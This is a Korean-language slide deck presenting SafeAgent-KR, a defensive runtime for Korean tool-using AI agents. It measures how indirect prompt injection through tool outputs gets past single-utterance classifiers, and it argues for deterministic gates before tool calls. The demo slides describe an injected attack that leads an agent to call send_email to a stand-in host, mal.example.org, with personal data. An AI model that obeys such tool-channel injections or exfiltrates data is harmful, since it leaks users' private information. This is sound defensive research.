



<!-- _class: title -->
<!-- _paginate: false -->

# SafeAgent-KR
## 도구 채널을 보는 한국어 AI 에이전트 안전 런타임

단일 발화 가드레일의 **구조적 사각지대**를 측정하고,
강제(enforcement)를 **결정적 게이트**로 이관한다

<br>

NIPA-Google · 개인 프로젝트 · 2026-07

<!--
"도구를 쓰는 한국어 에이전트에서, 안전장치를 어디에 둬야 하는가를 실측으로 답합니다." 10분 발표.
-->

---

## 문제 — 공격은 '사용자'가 아니라 '도구'로 들어온다

- 에이전트는 검색 문서·티켓·메모를 읽고 **행동**한다.
- 공격자는 사용자 발화가 아니라 **도구 반환값**을 통제한다
  → 간접 프롬프트 인젝션 (EchoLeak, CVE-2025-32711 동형).
- 한국어엔 이걸 볼 수단이 마땅치 않다:
  **Kanana = 단일 발화만**, Prompt Guard = 한국어 미평가.

<br>

<span class="lead">입력단만 지키는 통념적 가드레일은 **공격이 지나가는 지점을 아예 보지 못한다.**</span>

---

## 핵심 질문 — 온디바이스 분류기가 가드레일이면 되나?

- **통념:** 가드레일 = 온디바이스 안전 분류기(ShieldGemma·Kanana)가 **차단**.
- **축 분리:** *위치*(API vs 온디바이스)는 무관. ***역할*(탐지 vs 강제)**가 쟁점.
- **가설(사전등록):** 분류기가 신뢰 경계가 되면 theater. **결정적 게이트만 견고**.

> "우리 분류기가 남의 것을 이겼다"가 아니라 —
> **"분류기는 이 채널에서 강제 수단이 될 수 없으니 로그 전용으로 강등하고,
> 강제는 도구별 결정적 정책 게이트가 담당해야 한다"** 는 불가능성 논증.

---

## 아키텍처 — 4-seam 런타임 + 3계층 방어

```
before_model → 모델 → after_model → ★before_tool 게이트★ → 도구 → after_tool → (반복)
```

- **Tier A** 결정적 정책 게이트 — 위험티어·allowlist·인자검증·egress DLP scan
  · **문자열을 안 읽는다**(난독화 불변) · **구현 완료**
- **Tier B** 오염추적(taint) **구현** · **Tier C** 이중 LLM 격리 *(설계전용·미구현)*
- 분류기(Kanana·ShieldGemma): 스키마상 **log-only 고정**
- 4 seam 전부 **fail-closed** (예외 시 통과가 아니라 안전한 차단)

<span class="small">강제 권한은 항상 before_tool 게이트가 갖는다 — 페이로드가 한국어든 이모지든 base64든 판정이 같다.</span>

---

## 구현 아키텍처 (실제 배선)


---

## ★ 헤드라인 ★ — genuine vs theater (5-arm 애블레이션)



<span class="warn">주의: v0.1 행 p=0.002는 탐색적(난독화 변형 상관)→군집 p=0.125. post-hoc v0.2(시나리오 2→12) 시나리오 단위 p=0.031, 단 다중비교 보정 시 미유의 → **'보정 후 유의'가 아니라 '구조적 차단(방향 일관)'** 주장. 분류기 arm은 한국어를 0.022로 채점하는 영어 CPU 레일(교차언어 눈멂).</span>

<!--
theater 3종(plea/spotlight/분류기 강제)은 무방어와 n.s. Tier A만 모든 실행을 0으로.
-->

---

## 왜 분류기는 못 막나 — 채널 맹점 (GPU 실측)



- **Kanana(한국어 인젝션 SOTA):** 사용자 발화 recall **1.0** → 도구채널 대화 **0.0** (chat template이 tool 턴 드롭). 완벽 탐지기도 채널만 바뀌면 눈먼다.
- 게이트 t-ASR: **원본 = 난독화 = 0.00** (텍스트를 안 읽으므로).

<span class="warn">정직 정정: 사전등록 P1b(Kanana 난독화 붕괴 ≥0.25)는 반증됨(0.1). 논지는 채널 맹점(P1a=1.0)이 지탱.</span>

---

## DLP — 유출돼도 '토큰'만 나간다 (경계 분리 지표)



- 요청 스코프 **가역 PII 볼트** · 홉 간 같은 사람 → 같은 토큰 · 볼트 **ON → 모델 노출·비인가 유출 둘 다 0%**.
- 라우팅(to/account) 복원은 설계상 정상 → 유출 제외 · 복원 원본 PII는 트레이스(디스크)에 **미직렬화**.

---

## DLP + 학습형 레일 (GPU 완료 · 부록)

- **R6 PII NER** span F1 **0.9845** (klue-roberta, openpii-ko 20k)
- **R7 유해성** Macro-F1 **0.709** (K-MHaS 멀티라벨, BCEWithLogits)
- 학습 모델 가중치 확보 · 무결성(SHA256) 검증.

<br>

<span class="warn">주의: R6은 행단위 랜덤분할(=누수 가능 상한, 템플릿 홀드아웃 아님) → 부록 예비수치.
klue 파생 가중치는 CC-BY-SA 상속 → 수치 보고만, 공개 재배포 지양.</span>

<span class="small">학습형 축은 '탐지'용 부록 — 헤드라인 주장(강제=게이트)과 분리한다.</span>

---

## 데이터셋 · 재현성 기여

- **KoTIP-Bench** — 한국어 도구채널 인젝션 평가셋
  (공개 목표 · 라이선스 clean · Train/Dev/Test 분할 배포 가능).
- **Presidio 한국어 인식기 결함 2건** 정량 확인 (여권 인식기 부재 등, upstream 대상).
- **113 테스트** (.venv; CI-core + presidio) · **temp=0 근사 재현**.
- 계보 각인: run_id에 dataset·policy·rail 아티팩트 해시 → stale 결과 자동 격리.

<span class="small">공개 평가셋 11/11 · 공개 학습셋 3/11 (나머지는 "학습 개념 미적용=결정적" 또는 "평가 전용"으로 표에 명시).</span>

---

## 데모 — 무방어 유출 vs 게이트 차단 (★키 불요 재현★)

```
python -m scripts.run_demo      # 같은 공격을 arm 3종에 결정적 재생
python -m app.trace_view        # → 실행 과정 타임라인 HTML
```

- **`none`** — `send_email(drop@mal.example.org)` **실행됨 → 유출**
- **`tier_a`** — 같은 호출 **차단**(`egress.email_domains`) → escalate 폴백
- **`tier_a+dlp_vault`** — body의 주민번호 **차단**(`dlp.egress:body`)

<span class="small">키 불요: `scripted` 재생 + `pytest -k money_smoke`. 라이브 유도 관측: `--provider openai`. 같은 모델 행동·같은 에피소드 — 게이트만 실행을 차단.</span>

---

## 한계 & 결론 (정직성)

- **Kanana P1b(난독화 붕괴) 사전등록 미달** — 예측 반증(0.1<0.25), 그대로 보고.
- classifier_gate arm은 교차언어로 눈먼 **영어 CPU 레일로만** 측정.
- Tier B taint 세탁(→Tier C 필요, 설계 명세 제출) · 단일 모델 gpt-4o-mini · 소규모 코퍼스.
- **헤드라인 범위:** 런타임 배선 + 근거 있는 3가지
  (**Tier A 게이트 · Kanana 채널갭 · PII 볼트 DLP**)만 주장. R6/R7/R4는 부록.

<br>

<span class="lead">**결론: 강제는 분류기가 아니라 결정적 게이트에.
분류기는 '어디서 뚫리는지'(언어·채널)를 재는 도구.**</span>
